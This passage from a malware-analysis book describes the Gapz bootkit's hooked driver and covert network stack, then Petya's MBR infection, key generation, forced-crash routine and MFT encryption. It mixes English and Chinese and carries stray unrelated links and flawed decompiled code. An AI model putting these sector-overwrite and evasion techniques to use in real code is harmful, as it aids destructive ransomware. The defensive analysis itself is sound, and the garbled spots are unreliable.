Before unloading a kernel-mode driver, the operating system kernel executes the special routine DriverUnload. This optional routine, implemented by the kernel-mode driver to be unloaded, is used to perform any operations that are necessary before the system unloads the driver. The pointer to the routine is stored in the DriverUnload field of the corresponding DRIVER_OBJECT structure. If this routine isn’t implemented, the DriverUnload field contains NULL and the driver cannot be unloaded.

A snippet of the DriverUnload hook is shown in Listing 12-11.

```
hooked_ioctl = MEMORY[0xBBBBBBE3]->IoControlCode_HookArray;

➊ while ( *hooked_ioctl != IoStack->Parameters.DeviceIoControl_IoControlCode )
{
    ++1; // check if the request comes from the payload
    ++hooked_ioctl;
    if ( i >= IRP_MJ_SYSTEM_CONTROL )
        goto LABEL_11;
}

UserBuff = Irp->UserBuffer;
IoStack = IoStack->Parameters_DeviceIoControl.OutputBufferLength;
OutputBufferLength = IoStack;

if ( UserBuff )
{
    // decrypt payload request
    ➋ (MEMORY [0xBBBBBBBF]->rc4)(UserBuff, IoStack, MEMORY [0xBBBBBBBB]->rc4_key, 48);
    v4 = 0xBBBBBBBB;
    // check signature
    if ( *UserBuff == 0x34798977 )
    {
        hooked_ioctl = MEMORY [0xBBBBBBE3];
        IoStack = i;
        // determine the handler
        if ( UserBuff[1] == MEMORY [0xBBBBBBE3]->IoControlCodeSubCmd_Hook[i] )
        {
            ➌ (MEMORY [0xBBBBBBE3] ->IoControlCode_HookDpc[i])(UserBuff);
            ➍ (MEMORY 0xBBBBBBBF( // encrypt the reply
                UserBuff,
                OutputBufferLength,
                MEMORY [0xBBBBBBBB] ->rc4_key,
                48);
            v4 = 0xBBBBBBBB;
        }
        _Irp = Irp;
    }
}
```

*Listing 12-11: Hook of DriverUnload of* `null.sys`

Gapz checks at ➊ if the request is coming from the payload. If so, it decrypts the request using the RC4 cipher ➋ and executes the corresponding handler ➌. Once the request is handled, Gapz encrypts the result ➍ and sends it back to the payload.

The payload can send requests to the Gapz kernel-mode module using the code in Listing 12-12.

```
// open handle for \\Device\\NULL
➊  HANDLE hNull = CreateFile(_T("\\\\??\\\\NUL"), ...);

if(hNull != INVALID_HANDLE_VALUE) {
    // Send request to kernel-mode module
    ➋ DWORD dwResult = DeviceIoControl(hNull, WIN32_GAPZ_IOCTL, InBuffer, InBufferSize, OutBuffer,
                                        OutBufferSize, &BytesRead);
    CloseHandle(hNull);
}
```

*Listing 12-12: Sending a request from the user-mode payload to the kernel-mode module*

The payload opens a handle to the NULL device ➊. This is a system device, so the operation shouldn’t draw the attention of any security software. Once the payload obtains the handle, it communicates with the kernel-mode module using the DeviceIoControl system API ➋.

#### `Custom Network Protocol Stack`

The bootkit communicates with C&C servers over the HTTP protocol, whose main purpose is to request and download the payload and report back the bot status. The malware enforces encryption to protect the confidentiality of the messages being exchanged and to check the authenticity of the message source in order to prevent subversion by commands from fake C&C servers.

The most striking feature of the network communication is the way in which it is implemented. There are two ways the malware sends a message to the C&C server: by using the user-mode payload module (`overlord32.dll` or `overlord64.dll`) or using a custom kernel-mode TCP/IP protocol stack implementation. This network communication scheme is shown in Figure 12-16.

The user-mode payload, `overlord32.dll` or `overlord64.dll`, sends the message to the C&C server using a Windows socket implementation. The custom implementation of the TCP/IP protocol stack relies on the miniport adapter driver. Normally, network communication requests pass through the network driver stack, and at different layers of the stack they may be inspected by security software drivers. According to Microsoft’s Network Driver Interface Specification (NDIS), the miniport driver is the lowest driver in the network driver stack, so by sending network I/O packets directly to the miniport device object, Gapz can bypass all the intermediate drivers and avoid inspection (see Figure 12-17).


*Figure 12-16: Gapz network communication scheme*


*Figure 12-17: Gapz custom network implementation*

Gapz obtains a pointer to the structure describing the miniport adapter by manually inspecting the NDIS library (`ndis.sys`) code. The routine responsible for handling NDIS miniport adapters is implemented in block #8 of the kernel-mode module.

This approach allows Gapz to use the socket interface to communicate with the C&C server without being noticed. The architecture of the Gapz network subsystem is summarized in Figure 12-18.


*Figure 12-18: Gapz network architecture*

As you can see, the Gapz network architecture implements most layers of the Open Systems Interconnection (OSI) model: data link, transport, and application. To send and receive network packets to and from the physical device object that represents the network interface card, Gapz uses a corresponding interface available in the system (provided by the network card driver). However, all the work related to creating and parsing network frames is entirely implemented in the malware’s custom network stack.

### Conclusion

As you’ve seen, Gapz is complex malware with a very elaborate implementation and one of the most remarkably covert bootkits due to its VBR infection technique. No previously known bootkit can boast such a simultaneously elegant and subtle infection approach. Its discovery forced the security industry to step up its bootkit detection approaches and dig deeper into MBR/VBR scanning, looking not only at MBR/VBR code modifications but also at parameters and data structures that were previously considered out of scope.

## 13 THE RISE OF MBR RANSOMWARE


到目前为止，本书中描述的所有恶意软件示例都属于同一类：具有 rootkit 或 bootkit 功能的计算机木马，其目的是在受害者系统上持久存在，以执行各种恶意活动——包括浏览器点击欺诈、发送垃圾邮件、开启后门或创建 HTTP 代理等（仅举几例）。这些木马使用 bootkit 持久化方法在受感染的计算机上保持存在，并利用 rootkit 功能避免被检测。

在本章中，我们将探讨 *勒索软件*，这是一种操作模式截然不同的恶意软件家族。顾名思义，勒索软件的主要目的是将用户完全锁出其数据或计算机系统，并要求赎金以恢复访问权限。

在大多数已知案例中，勒索软件使用加密技术使用户无法访问其数据。恶意软件执行后，会尝试对用户有价值的所有内容（文档、照片、邮件等）进行加密，然后向用户索要赎金以获取解密密钥。

大多数勒索软件针对计算机文件系统中的用户文件，但这些方法并未实现高级 rootkit 或 bootkit 功能，因而与本书关注范围无关。然而，某些勒索软件家族会加密硬盘的扇区以阻止用户访问系统，并利用 bootkit 功能实现此目的。

本章我们将重点讨论后者类别：针对计算机硬盘的勒索软件，它不仅会让受害者失去文件，还会阻断对整个计算机系统的访问。此类勒索软件会加密硬盘的特定区域，并在主引导记录区（MBR）上安装恶意引导程序。系统不再引导操作系统，而是由引导程序在硬盘内容上执行低级加密并向受害者显示赎金要求信息。我们将重点关注两个获得大量媒体关注的家族：Petya 和 Satana。

### 现代勒索软件简史

现代勒索软件的最初痕迹可以追溯到 1989 年首次在野外发现的 AIDS 计算机病毒。AIDS 使用类似现代勒索软件的方法，通过在旧的 MS-DOS COM 可执行文件开头覆盖恶意代码，使得数据无法恢复。但 AIDS 并未要求受害者支付赎金以恢复对受感染程序的访问——它直接破坏信息，没有恢复选项。

首个要求赎金的已知恶意软件是 2004 年出现的 GpCode 木马。它因使用 660 位 RSA 加密算法锁定用户文件而闻名。2004 年，整数分解的进展使得破解 600 位整数几乎可行（2005 年曾有奖金奖励成功分解 RSA-640，即 640 位数的 RSA 密钥）。随后的修改升级为 1,024 位 RSA 加密，提高了对 brute-force 攻击的抗性。GpCode 通过伪装成求职附件的电子邮件附件传播。一旦在受害系统上执行，它会加密用户文件并显示赎金信息。

尽管这些早期案例出现，勒索软件在 2012 年才成为广泛威胁，但此后一直保持高发态势。其增长的一个重要因素是匿名在线服务的普及，如比特币支付系统和 Tor 网络。勒索软件开发者可以借助这些系统收取赎金，而不必担心被执法机构追踪。这种网络犯罪业务极具盈利性，促使勒索软件的多样化开发和广泛传播。

2012 年引发激增的勒索软件是 Reveton，它伪装成针对用户所在地区的执法机构消息。例如，美国受害者会看到假装由 FBI 发布的通知，指控其使用版权内容未经授权或观看和分发色情内容，并要求通过 Ukash、Paysafe 或 MoneyPak 等服务缴纳罚款。

随后，具有类似功能的更多威胁陆续出现。2013 年发现的 CryptoLocker 是当时的领先勒索软件，采用 2,048 位 RSA 加密，主要通过被 compromized 网站和电子邮件附件传播。CryptoLocker 的一个有趣特性是受害者必须以比特币或预付现金券形式支付赎金。使用比特币为威胁增加了匿名层，使得追踪攻击者变得极其困难。

另一款显著的勒索软件是 CTB-Locker，最早在 2014 年出现。CTB 代表 *Curve/TOR/Bitcoin*，表明该威胁利用了曲线加密、TOR 协议和比特币等核心技术。CTB-Locker 使用 *椭圆曲线加密（ECC）* 算法，是首个已知使用 TOR 协议隐藏 C&C 服务器的勒索软件。

网络犯罪业务至今仍极具盈利性，勒索软件不断演变，层出不穷的变种层出不穷。本文讨论的勒索软件家族仅占已知威胁的极小比例。

### 带有 bootkit 功能的勒索软件

2016 年发现了两个新的勒索软件家族：Petya 和 Satana。它们不像常规勒索软件那样加密文件系统中的用户文件，而是加密硬盘的部分区域，使操作系统无法启动，并向受害者展示赎金要求信息。实现显示赎金信息的最简便方式是利用基于 MBR 的 bootkit 感染技术。

Petya 通过加密硬盘的 *主文件表（MFT）* 来阻止用户访问系统。MFT 是 NTFS 卷的关键特殊数据结构，记录了系统中所有文件的位置、文件名以及其他属性，主要用于定位文件。通过加密 MFT，Petya 确保文件无法被定位，受害者无法访问卷内的文件，甚至无法启动系统。

Petya 主要通过电子邮件中伪装成求职附件的链接传播。该链接实际指向包含 Petya 加载器的恶意 ZIP 压缩包。该恶意软件甚至利用合法的 Dropbox 服务托管 ZIP 压缩包。

Satana 在 Petya 之后不久被发现，它同样通过加密硬盘的 MBR 来阻止系统启动。尽管其 MBR 感染能力不如 Petya 那么高级，甚至包含一些错误，但其仍值得讨论。

#### SHAMOON：THE LOST TROJAN

*Shamoon* 是在 Satana 和 Petya 同时期出现的木马，具备类似功能。它以破坏目标系统数据并使其无法启动而闻名，主要针对能源和石油行业等组织，但因不要求赎金，故此处不作详细展开。Shamoon 包含一个合法文件系统工具的组件，用于在低级别访问硬盘并用自身数据覆盖用户文件（包括 MBR 扇区），导致多家组织出现严重故障。其中之一——沙特阿拉伯石油公司 Saudi Aramco——花费了一周时间才恢复服务。

### 勒索软件的作案模式

在进入 Petya 和 Satana 引导程序组件的技术分析之前，让我们先从高层面了解现代勒索软件的运作方式。每个勒索软件家族都有其独特的特点，稍微偏离本文所描述的图景，但 Figure 13-1 反映了勒索软件最常见的操作模式。


*Figure 13-1: 现代勒索软件的作战模式*

在受害系统上执行勒索软件后，它会为对称加密算法（如 AES、RC4 或 RC5）生成一个唯一的加密密钥 ➊。该密钥，我们称之为文件加密密钥（FEK），用于加密用户文件。恶意软件使用（伪）随机数生成器生成一个唯一且不可猜测的密钥。

生成文件加密密钥后，它会传输到 C&C 服务器 ➋ 进行存储。为了避免网络流量监控软件的拦截，恶意软件会使用嵌入在恶意软件中的公钥对文件加密密钥进行加密，常见做法是使用 RSA 或 ECC 加密算法，这在 CTB-Locker 和 Petya 中均有体现。该私钥不存在于恶意软件体中，仅由攻击者知晓，确保没有其他人能够获取文件加密密钥。

当 C&C 服务器确认收到文件加密密钥后，勒索软件开始在硬盘上加密用户文件 ➎。为了减少需要加密的文件体积，勒索软件使用内置的文件扩展名列表过滤掉无关文件（如可执行文件、系统文件等），仅加密对受害者最有价值的用户文件，如文档、图片和照片。

加密完成后，勒索软件在受害系统上销毁文件加密密钥 ➎，使得用户在不支付赎金的情况下几乎无法恢复文件内容。此时，文件加密密钥通常只存在于攻击者的 C&C 服务器上，但在某些情况下，加密后的副本也会保存在受害者的系统上。即便如此，如果没有私钥，用户仍然几乎无法恢复文件加密密钥并恢复文件访问。

随后，勒索软件向用户显示赎金消息 ➏，提供支付赎金的说明。在某些情况下，赎金消息嵌入在恶意软件体中；在其他情况下，它会从 C&C 服务器获取赎金页面。

### A FATAL FLAW

并非所有早期勒索软件都如此无懈可击，因为加密过程的实现存在缺陷。例如，TorrentLocker 的早期版本使用计数模式（counter mode）的 AES 加密算法来加密文件。在计数模式下，AES 加密会生成一个密钥字符序列，然后将其与文件内容进行异或运算进行加密。该方法的弱点在于，相同的密钥和初始化向量（IV）会产生相同的密钥序列，与文件内容无关。攻击者可以通过异或加密文件与对应的原始文件，获取密钥序列，从而解密其他文件。发现这一弱点后，TorrentLocker 更新为使用 AES 加密的密码块链接（CBC）模式，消除了该弱点。在 CBC 模式中，加密前的明文块会与上一轮加密的密文块进行异或，使得即使输入数据极小的变化，也会导致加密结果发生显著差异，从而使得对 TorrentLocker 的数据恢复方法失效。

### 分析 Petya 勒索软件

本节将重点分析 Petya 硬盘加密功能的技术细节。Petya 以恶意 dropper 的形式出现在受害者的计算机上，执行后会解压包含主勒索软件功能的 DLL 文件。

#### 获取管理员权限

虽然大多数勒索软件不需要管理员权限，但 Petya 需要管理员权限才能直接向受害系统的硬盘写入数据。没有此权限，Petya 将无法修改 MBR 并安装恶意引导程序。dropper 可执行文件包含一个清单，指定其只能以管理员身份运行。Listing 13-1 展示了 dropper 清单的片段。

```
<trustInfo xmlns="urn:schemas-microsoft-com:asm.v2">
  <security>
  <requestedPrivileges>
  ➊ <requestedExecutionLevel level="requireAdministrator" uiAccess="false"/>
  </requestedPrivileges>
  </security>
</trustInfo>
```

*Listing 13-1: Petya dropper 清单的片段*

安全部分中的 `requestedExecutionLevel` 参数被设置为 `requireAdministrator` ➊。当用户尝试执行 dropper 时，操作系统加载器会检查当前执行级别。如果低于管理员级别，系统会弹出对话框询问用户是否希望以提升权限运行程序（前提是用户账户具有管理员权限），或请求管理员凭据（如果用户账户没有管理员权限）。如果用户选择不授予管理员权限，dropper 将不会启动，系统不会受到任何损害。如果用户被诱导以管理员身份运行 dropper，恶意软件将继续感染系统。

Petya 的感染过程分两步进行。第一步，它会获取目标系统的信息，确定硬盘的分区类型，生成配置信息（加密密钥和赎金消息），构建用于第二步的恶意引导程序，然后将恶意引导程序写入计算机的 MBR 并触发系统重启。

重启后，恶意引导程序被执行，启动感染过程的第二步。恶意引导程序会加密硬盘上存储 MFT 的扇区，然后再次重启机器。第二次重启后，恶意引导程序显示第一步中生成的赎金消息。

我们将在后续章节中更详细地分析这些步骤。

#### 硬盘感染（步骤 1）

Petya 通过获取物理硬盘的名称来发起对 MBR 的感染。在 Windows 操作系统中，可以通过调用 `CreateFile` API 并将字符串 `'\\\\.\\PhysicalDriveX'` 作为文件名参数传递，其中 X 表示系统中的硬盘索引。如果系统只有一块硬盘，则物理硬盘的文件名为 `'\\\\.\\PhysicalDrive0'`。如果有多块硬盘，恶意软件会使用系统启动的硬盘索引。

Petya 通过向当前 Windows 实例所在的 NTFS 卷发送特殊请求 `IOCTL_VOLUME_GET_VOLUME_DISK_EXTENTS` 来实现这一点，该请求通过 `DeviceIoControl` API 获取。该请求会返回一个结构体数组，描述所有用于托管 NTFS 卷的硬盘。更具体地说，它返回 NTFS 卷的扩展数组。一个 *卷扩展* 是一块连续的扇区运行，位于同一块磁盘上。例如，一个 NTFS 卷可能跨越两块磁盘，此时该请求会返回两个扩展。返回结构体的布局如下所示 Listing 13-2。

```
typedef struct _DISK_EXTENT {
  ➊ DWORD          DiskNumber;
  ➋ LARGE_INTEGER  StartingOffset;
  ➌ LARGE_INTEGER  ExtentLength;
} DISK_EXTENT, *PDISK_EXTENT;
```

*Listing 13-2: DISK_EXTENT 结构体布局*

The `StartingOffset` ➋ field describes the position of the volume extent on the hard drive as the offset from the beginning of the hard drive in sectors, and `ExtentLength` ➌ provides its length. The `DiskNumber` parameter ➊ contains the index of the corresponding hard drive in the system, which also corresponds to the index in the filename for the hard drive. The malware uses the `DiskNumber` field of the very first structure in the returned array of the volume extents to construct the filename and access the hard drive.

After constructing the filename for the physical hard drive, the malware determines the partitioning scheme of the hard drive with the request `IOCTL_DISK_GET_PARTITION_INFO_EX`, sent to the hard drive.

Petya is capable of infecting hard drives with either MBR-based partitions or GUID Partition Table (GPT) partitions (the layout of the GPT partition is described in Chapter 14). First we’ll look at how Petya infects MBR-based hard drives, and then we’ll describe the particulars of the GPT-based disk infection.

##### Infecting the MBR Hard Drive

To infect an MBR partitioning scheme, Petya first reads the MBR to calculate the amount of free disk space between the beginning of the hard drive and the beginning of the very first partition. This space is used to store the malicious bootloader and its configuration information. Petya retrieves the starting sector number of the very first partition; if it starts at a sector with an index less than 60 (0x3C), it means there’s not enough space on the hard drive, so Petya stops the infection process and exits.

If the index is 60 or more, there is enough space and the malware proceeds with constructing the malicious bootloader, which consists of two components: the malicious MBR code and the second-stage bootloader. Figure 13-2 shows the layout of the first 57 sectors of the hard drive after infection.


*Figure 13-2: Layout of the hard drive sectors with Petya infection for MBR disks*

To construct the malicious MBR, Petya combines the partition table of the original MBR with the malicious MBR code, writing the result to the very first sector of the hard drive ➊ in place of the original MBR. The original MBR is XORed with a fixed byte value of 0x37, and the result is written to sector 56 ➏.

The second-stage malicious bootloader occupies 17 contiguous sectors (0x2E00 bytes) of the disk space and is written on the hard drive in sectors 34 to 50 ➌. The malware also obfuscates sectors 1 to 33 ➋ by XORing its contents with the fixed byte value 0x37.

The configuration data for the malicious bootloader is stored in sector 54 ➍ and is used by the bootloader in step 2 of the infection process. We’ll dive into the details of the configuration data structure in “Encrypting with the Malicious Bootloader Configuration Data” on page 215.

Petya also uses sector 55 ➎ to store a 512-byte buffer filled with 0x37 byte values, which will be used to validate the victim-provided password and unlock the hard drive, as we’ll discuss in “Displaying the Ransom Message” on page 224.

With that, the infection of the MBR is complete. Although in Figure 13-2 sector 57 ➐ is marked “Encrypted clusters counter,” this isn’t used at this stage of infection. It will be used by the malicious bootloader code in step 2 to store the number of the MFT’s encrypted clusters.

##### Infecting the GPT Hard Drive

The GPT hard drive infection process is similar to MBR hard drive infection, but with a few extra steps. The first additional step encrypts the backup copy of the GPT header to make system recovery more difficult. The GPT header holds information about the layout of the GPT hard drive, and this backup copy enables the system to recover the GPT header in the event that it’s corrupted or invalid.

To find the backup GPT header, Petya reads the sector at offset 1 from the hard drive that contains the GPT header, then reaches into the field that contains the offset of the backup copy.

Once it has the location, Petya obfuscates the backup GPT header, as well as the 32 sectors preceding it, by XORing them with the fixed constant 0x37, as shown in Figure 13-3 ➊. These sectors contain the backup GPT.


*Figure 13-3: Layout of the hard drive sectors with Petya infection for GPT disks*

Since the layout of the hard drive is different for a GPT partitioning scheme than for MBR partitioning, Petya cannot simply reuse the GPT partition table as is to construct the malicious MBR (as it does in the case of the MBR hard drive). Instead, it manually constructs an entry in the partition table of the infected MBR that represents the whole hard drive.

Apart from these points, the infection of a GPT hard drive is exactly the same as that of MBR disks. However, it’s important to note that this approach won’t work on systems with UEFI boot enabled. As you’ll learn in Chapter 14, in a UEFI boot process, UEFI code (rather than the MBR code) is responsible for booting the system. If Petya is executed on a UEFI system, it will simply render the system unbootable, because the UEFI loader won’t be able to read the encrypted GPT or its backup copy to determine the location of the OS loader.

The Petya infection *will* work on hybrid systems that use legacy BIOS boot code and a GPT partitioning scheme—for instance, when the BIOS Compatibility Support Mode is enabled—since on such systems the MBR sector is still used to store the first-stage system bootloader code but is modified to recognize GPT partitions.

#### Encrypting with the Malicious Bootloader Configuration Data

We mentioned that during step 1 of the infection process, Petya writes the bootloader configuration data to sector 54 of the hard drive. The bootloader uses this data to complete the encryption of the hard drive’s sectors. Let’s look how this data is generated.

The configuration data structure is shown in Listing 13-3.

```c


typedef struct _PETYA_CONFIGURATION_DATA {  

➊ BYTE EncryptionStatus;  

➋ BYTE SalsaKey[32];  

➌ BYTE SalsaNonce[8];  

 CHAR RansomURLs[128];  

 BYTE RansomCode[343];  

} PETYA_CONFIGURATION_DATA, * PPETYA_CONFIGURATION_DATA;

*Listing 13-3: Petya configuration data layout*

The structure starts with a flag ➊ indicating whether the MFT of the hard drive is encrypted or not. During step 1 of the infection process, the malware clears this flag, since no MFT encryption takes place at this stage. This flag is set by the malicious bootloader in step 2, once it starts the MFT encryption. Following the flag are the encryption key ➋ and initialization value (IV) ➌ used for encrypting the MFT, which we’ll go over next.

### Generating Cryptographic Keys

To implement cryptographic functionality, Petya uses the public library `mbedtls` (“embedded TLS”), intended for use in embedded solutions. This tiny library implements a wide variety of modern cryptographic algorithms for symmetric and asymmetric data encryption, hash functions, and more. Its small memory footprint is ideal for the limited resources available at the stage of the malicious bootloader where MFT encryption takes place.

One of Petya’s most interesting features is that it uses the rare Salsa20 cipher to encrypt the MFT. This cipher generates a stream of key characters that are XORed with plaintext to obtain a ciphertext, and it takes as input a 256-bit key and a 64-bit initialization value. For the public key encryption algorithm, Petya uses ECC. Figure 13-4 shows a high-level view of the process for generating cryptographic keys.

- [生成 Salsa20 加密密钥](https://wiki.example.org/feynmans_learning_method) 时，恶意软件首先生成一个密码——一个由字母数字字符组成的 16 字节随机字符串 ➊。Petya 然后使用 `Listing 13-4` 中展示的算法将该字符串扩展为 32 字节的 Salsa20 密钥 ➋，该算法会加密硬盘 MFT 扇区的内容。恶意软件还使用伪随机数生成器为 Salsa20 生成一个 64 位的 nonce（初始化向量）。

```
do  
{  
  config_data->salsa20_key[2 * i] = password[i] + 0x7A;  
  config_data->salsa20_key[2 * i + 1] = 2 * password[i];  
  ++i;  
} while ( i < 0x10 );  
```

*Listing 13-4: 将密码扩展为 Salsa20 加密密钥*

随后，Petya 生成用于勒索信息的密钥，这是一个将在勒索页面上显示的字符串。受害者必须向 C&C 服务器提供此勒索密钥，以获取用于解密 MFT 的密码。

### 生成勒索密钥

只有攻击者应能够从勒索密钥中恢复密码，因此 Petya 使用嵌入在恶意软件中的椭圆曲线公钥加密方案（ECC）进行保护，该公钥称为 C&C 公钥 `ecc_cc_public_key`。


*Figure 13-4: 生成加密密钥*

首先，Petya 在受害者系统上生成一个临时的 ECC 密钥对 ➌，称为 *临时密钥*，用于与 C&C 服务器建立安全通信：`ecc_ephemeral_pub` 和 `ecc_ephemeral_priv`。

接下来，它使用 ECC Diffie‑Hellman 密钥交换算法 ➍ 生成共享密钥（即共享密钥）。该算法允许两方共享仅它们知道的秘密，任何窃听者都无法推导出该秘密。在受害者计算机上，共享密钥计算为 `shared_secret = ECDHE(ecc_ephemeral_priv, ecc_cc_public_key)`，其中 `ECDHE` 是 Diffie‑Hellman 密钥交换例程，它接受两个参数：受害者的私钥和恶意软件中嵌入的 C&C 公钥。攻击者同样计算共享密钥：`shared_secret = ECDHE(ecc_ephemeral_pub, ecc_cc_private_key)`，其中使用其自身的私钥和受害者的公钥。

生成 `shared_secret` 后，恶意软件使用 SHA512 哈希算法计算其哈希值，并取前 32 字节作为 AES 密钥 ➎：`aes_key = SHA512(shared_secret)[0:32]`。

随后，使用刚才导出的 `aes_key` 对密码进行加密：`encrypted_password = AES(aes_key XOR password)`。可以看到，在加密前，恶意软件先将密码与 AES 密钥进行异或运算。

最后，Petya 使用 base58 编码算法对临时公钥和加密后的密码进行编码，得到用作勒索密钥的 ASCII 字符串 ➐：`ransom_key = base58_encode(ecc_ephemeral_pub, encrypted_password)`。

### 验证勒索密钥

如果受害者支付赎金，攻击者会提供解密数据的密码，因此我们来看攻击者如何验证勒索密钥以恢复受害者的密码。

受害者向攻击者发送勒索密钥后，Petya 使用 base58 解码算法获取受害者的公钥和加密密码：`ecc_ephemeral_pub`、`encrypted_password = base58_decode(ransom_key)` ➑。

攻击者随后使用前文所述的 ECDHE 密钥交换协议计算共享密钥：`shared_secret = ECDHE(ecc_ephemeral_pub, ecc_cc_private_key)` ➒。

利用共享密钥，攻击者再次计算 AES 密钥：`aes_key = SHA512(shared_secret)[0:32]` ➓。

有了 AES 密钥后，攻击者可以解密密码并得到受害者的密码：`password = AES_DECRYPT(encrypted_password) XOR aes_key`。

攻击者现在拥有从勒索密钥中唯一可得的受害者密码，任何没有攻击者私钥的人都无法获得该密码。

### 生成勒索 URL

作为引导加载程序第二阶段的最后配置信息，Petya 生成勒索 URL，供勒索信息中显示给受害者如何支付赎金并恢复系统数据。恶意软件随机生成一个字母数字受害者 ID，然后将其与恶意域名组合，得到形如 `http://<malicious_domain>/<victim_id>` 的 URL。Figure 13-5 展示了几条示例 URL。


*Figure 13-5: Petya 配置数据中的勒索 URL*

可以看到顶级域名为 *.onion*，这意味着恶意软件使用 TOR 来生成这些 URL。

### 使系统崩溃

在将恶意引导加载程序及其配置数据写入硬盘后，Petya 使系统崩溃并强制重启，以便执行恶意引导加载程序并完成系统感染。`Listing 13-5` 展示了实现方式。

```
void __cdecl RebootSystem()  
{  
  hProcess = GetCurrentProcess();  
  if ( OpenProcessToken(hProcess, 0x28u, &TokenHandle) )  
  {  
    LookupPrivilegeValueA(0, "SeShutdownPrivilege", NewState.Privileges);  
    NewState.PrivilegeCount = 1;  
    NewState.Privileges[0].Attributes = 2;  
➊ AdjustTokenPrivileges(TokenHandle, 0, &NewState, 0, 0, 0);  
    if ( !GetLastError() )  
    {  
      v1 = GetModuleHandleA("NTDLL.DLL");  
      NtRaiseHardError = GetProcAddress(v1, "NtRaiseHardError");  
➋ (NtRaiseHardError)(0xC0000350, 0, 0, 0, 6, &v4);  
    }  
  }  
}
```

*Listing 13-5: 强制系统重启的 Petya 例程*

Petya 调用系统 API `NtRaiseHardError` ➋ 来使系统崩溃，该 API 向系统通知严重错误，要求重新启动以防止数据丢失或损坏。

要执行此例程，调用进程需要 `SeShutdownPrivilege` 特权，而 Petya 由于以管理员账户启动而轻易获得该特权。如 `Listing 13-5` 所示，在执行 `NtRaiseHardError` 之前，Petya 通过调用 `AdjustTokenPrivileges` ➊ 调整当前特权。

### 加密 MFT（步骤 2）

现在我们关注感染过程的第二步。引导加载程序由两部分组成：恶意 MBR 和第二阶段引导加载程序（本文称之为恶意引导加载程序）。恶意 MBR 的唯一作用是加载第二阶段引导加载程序到内存并执行它，因此我们跳过对恶意 MBR 的分析。第二阶段引导加载程序实现了勒索软件最有趣的功能。

### 查找可用磁盘

引导加载程序获得控制权后，必须获取系统中可用磁盘的信息。它利用众所周知的 INT 13h 服务，如 `Listing 13-6` 所示。

```
➊ mov    dl, [bp+disk_no]  
➋ mov    ah, 8  
  int    13h
```


# Listing 13-6: 使用 INT 13h 检查系统中的磁盘可用性

为了检查硬盘的可用性和大小，恶意软件将磁盘索引存储在 `dl` 寄存器 ➊ 中，然后执行 `INT 13h`。磁盘会按序号递增分配，Petya 通过检查磁盘索引 0 到 15 来查找系统中的硬盘。随后，它将 `ah` 寄存器设为 8，表示 INT 13h 的“获取当前驱动器参数”功能，并执行 `INT 13h`。执行完成后，如果 `ah` 寄存器等于 0，则指定磁盘存在于系统中，且 `dx` 与 `cx` 寄存器包含磁盘大小信息；如果 `ah` 不等于 0，则说明该索引对应的磁盘不存在于系统中。

- [恶意引导程序](https://wiki.example.org/feynmans_learning_method)从第 54 个扇区读取配置数据，并通过读取缓冲区的第一个字节来检查硬盘的 MFT 是否被加密，该字节对应配置数据中的 EncryptionStatus 字段。如果标志为清除（即 MFT 未加密），恶意软件将继续加密系统中可用的硬盘的 MFT，完成感染过程。如果 MFT 已经加密，恶意引导程序会向受害者显示勒索消息。我们稍后讨论勒索消息，但首先我们将专注于恶意引导程序如何执行加密。

## `Encrypting the MFT`

如果配置数据的 EncryptionStatus 标志为清除（即设置为 0），恶意软件读取 Salsa20 加密密钥和 IV，分别从 SalsaKey 和 SalsaNonce 参数中获取，并使用它们对硬盘数据进行加密。引导程序随后设置 EncryptionStatus 标志，并在第 54 个配置数据区域销毁 SalsaKey，以防止数据被解密。

接下来，引导程序读取感染硬盘的第 55 个扇区，该扇区后续用于验证受害者输入的密码。此时，该扇区占用 0x37 字节。Petya 使用 Salsa20 算法对该扇区进行加密，密钥和 IV 从配置数据中读取，然后将结果写回第 55 个扇区。

现在，恶意引导程序已准备好加密系统中硬盘的 MFT。加密过程会显著延长引导过程，为了避免引起怀疑，Petya 会显示一个假的 chkdsk 消息，如图 13-6 所示。chkdsk 是用于修复硬盘文件系统的系统实用程序，系统崩溃后看到 chkdsk 消息并不奇怪。在假消息的屏幕上，恶意软件对系统中可用的每个硬盘执行以下算法。


*Figure 13-6: 一个假的 chkdsk 消息*

首先，恶意软件读取硬盘的 MBR，并遍历 MBR 分区表，查找可用的分区。它检查描述分区所用文件系统类型的参数，跳过所有类型值不是 0x07（表示包含 NTFS 卷的分区）、0xEE 和 0xEF（表示硬盘采用 GPT 布局）的分区。如果硬盘采用 GPT 布局，恶意引导代码会从 GPT 分区表中获取分区的位置。

## `Parsing the GPT Partition Table`

在 GPT 分区表的情况下，恶意软件会执行额外步骤来查找硬盘上的分区：它从第三个扇区开始读取 GPT 分区表。每个 GPT 分区表条目长 128 字节，结构如 Listing 13-7 所示。

```c
typedef struct _GPT_PARTITION_TABLE_ENTRY {  
  BYTE PartitionTypeGuid[16];  
  BYTE PartitionUniqueGuid[16];  
  QWORD PartitionStartLba;  
  QWORD PartitionLastLba;  
  QWORD PartitionAttributes;  
  BYTE PartitionName[72];  
} GPT_PARTITION_TABLE_ENTRY, *PGPT_PARTITION_TABLE_ENTRY;
```

*Listing 13-7: GPT partition table entry layout*

第一个字段 `PartitionTypeGuid` 是一个 16 字节的数组，包含分区类型的标识符，决定该分区用于存储什么类型的数据。恶意引导代码检查该字段，过滤掉所有 `PartitionTypeGuid` 字段不等于 `{EBD0A0A2-B9E5-4433-87C0-68B6B72699C7}` 的条目；该类型为 Windows 操作系统的基本数据分区，用于存储 NTFS 卷。这正是恶意软件感兴趣的内容。

如果恶意引导代码识别出一个基本数据分区，它读取 `PartitionStartLba` 和 `PartitionLastLba` 字段，获取分区的起始和结束扇区地址，从而确定目标分区在硬盘上的位置。获得分区坐标后，Petya 引导代码会进入下一步。

## `Locating the MFT`

为了定位 MFT，恶意软件从硬盘读取选定分区的 VBR（引导加载区的布局在第 5 章有详细描述）。文件系统参数在 BIOS 参数块（BPB）中描述，其结构如 Listing 13-8 所示。

```c
typedef struct _BIOS_PARAMETER_BLOCK_NTFS {  
  WORD SectorSize;  
  BYTE SectorsPerCluster;  
  WORD ReservedSectors;  
  BYTE Reserved[5];  
  BYTE MediaId;  
  BYTE Reserved2[2];  
  WORD SectorsPerTrack;  
  WORD NumberOfHeads;  
  DWORD HiddenSectors;  
  BYTE Reserved3[8];  
  QWORD NumberOfSectors;  
  QWORD MFTStartingCluster;  
  QWORD MFTMirrorStartingCluster;  
  BYTE ClusterPerFileRecord;  
  BYTE Reserved4[3];  
  BYTE ClusterPerIndexBuffer;  
  BYTE Reserved5[3];  
  QWORD NTFSSerial;  
  BYTE Reserved6[4];  
